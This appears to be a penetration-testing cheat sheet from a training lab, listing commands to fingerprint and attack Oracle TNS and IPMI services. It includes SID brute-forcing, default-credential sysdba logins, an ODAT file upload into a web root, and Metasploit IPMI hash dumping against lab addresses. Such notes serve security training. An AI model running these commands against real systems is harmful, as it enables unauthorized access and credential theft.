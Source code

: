 ### Fingerprinting the Service
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
### Nmap - SID Bruteforcing
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
### ODAT
```
./odat.py all -s 10.129.204.235
```
### SQLplus - Log In
```
sqlplus scott/tiger@10.129.204.235/XE;
```
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
### Oracle RDBMS - Database Enumeration
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
### Oracle RDBMS - File Upload
```
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
```
curl -X GET http://10.129.204.235/testing.txt
```
## IPMI
### Footprinting the Service
```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```
### Metasploit Version scan
```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```
### Metasploit Dumping Hashes
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
```
